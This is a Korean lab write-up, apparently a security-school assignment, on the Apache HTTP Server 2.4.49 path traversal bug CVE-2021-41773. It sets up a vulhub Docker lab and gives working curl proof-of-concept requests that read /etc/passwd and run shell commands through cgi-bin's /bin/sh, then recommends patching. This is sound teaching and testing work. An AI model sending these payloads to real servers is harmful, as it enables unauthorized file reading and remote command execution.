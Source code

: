 # CVE-2021-41773 | Apache HTTP Server 2.4.49 Path Traversal 취약점

> 화이트햇 스쿨 3기 (20반) - [김혜지 (@hyeroro)](https://github.com/hyeroro)

<br/>

## 취약점 개요

- **CVE ID**: CVE-2021-41773
- **취약점 유형**: Path Traversal(경로 탐색)
- **CVSS 점수**: 7.5 (High)
- **영향 받는 버전**: Apache HTTP Server 2.4.49
- **발견 날짜**: 2021년 10월 4일
- **패치 버전**: Apache HTTP Server 2.4.50 또는 이후 버전

이 취약점은 Apache HTTP Server 2.4.49에서 경로 정규화가 제대로 처리되지 않아 발생합니다. 공격자는 URL 경로 탐색 시퀀스를 사용하여 웹 루트 디렉토리 외부의 파일에 접근하거나 CGI 스크립트를 통해 명령을 실행할 수 있습니다.

<br/>

## 환경 구성
### 사용한 도구
- OS: Ubuntu 20.04 LTS
- Docker 버전: 28.0.1
- Docker Compose 버전: v2.33.1-desktop.1

### 명령어
```sh
# vulhub 저장소 클론
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2021-41773

# Docker 컨테이너 실행
docker-compose up -d
```
![setting](./images/setting.png)

<br/>

## PoC 및 결과

### 취약점 원인
Apache HTTP Server 2.4.49에서는 URL 경로 정규화 과정에서 결함이 있어 %2e (URL 인코딩된 점)을 사용한 디렉토리 탐색이 제대로 차단되지 않습니다. 이로 인해 공격자는 서버의 파일 시스템에 있는 임의의 파일에 접근할 수 있습니다.

### 경로 탐색 (Path Traversal) 테스트
/etc/passwd 파일 접근
```bash
curl -v —path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
![PathTraversal2](./images/PathTraversalTest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```
![PathTraversal](./images/PathTraversalTest.png)


### 원격 코드 실행 (RCE) 테스트
```bash
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```
![RCEtest](./images/RCEtest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```
![RCEtest](./images/RCEtest.png)

<br/>

## 결론
  본 분석을 통해 Apache HTTP Server 2.4.49 버전에서 발생하는 CVE-2021-41773 취약점이 심각한 보안 위협임을 확인했습니다. 이 취약점은 경로 정규화 과정의 결함으로 인해 공격자가 URL 인코딩된 .(%2e) 문자를 사용하여 웹 루트 디렉토리 외부의 파일에 접근할 수 있도록 허용합니다.

  실제로 /etc/passwd와 같은 시스템 파일을 읽는 경로 탐색(Path Traversal) 공격이 성공함을 PoC를 통해 확인하였으며, 특히 CGI 스크립트가 활성화된 환경에서는 /bin/sh와 같은 쉘 실행 파일을 통해 임의의 시스템 명령어를 실행할 수 있는 원격 코드 실행(RCE)으로 이어질 수 있음을 입증했습니다. 이는 공격자가 서버의 민감한 정보에 접근하거나 시스템을 완전히 장악할 수 있음을 의미하며, 그 위험성이 매우 높습니다.

  따라서 Apache HTTP Server 2.4.49 버전을 운영 중인 관리자는 즉시 취약점이 해결된 Apache HTTP Server 2.4.50 또는 이후 버전으로 업데이트하는 것이 필수적입니다. 신속한 패치는 해당 취약점을 이용한 공격 시도를 차단하고 시스템의 보안을 강화하는 가장 효과적인 방법입니다. 또한, 웹 서버 설정에서 불필요한 CGI 실행 권한을 제한하고, 중요한 시스템 파일에 대한 접근 제어를 강화하는 등의 추가적인 보안 조치를 고려해야 합니다.

#### 구현된 GitHub 레포지토리 링크
- [링크](https://github.com/hyeroro/kr-vulhub/tree/CVE-2021-41773/CVE-2021-41773)

#### pull request 링크
- [링크](https://github.com/gunh0/kr-vulhub/pull/255#issue-3022164231)
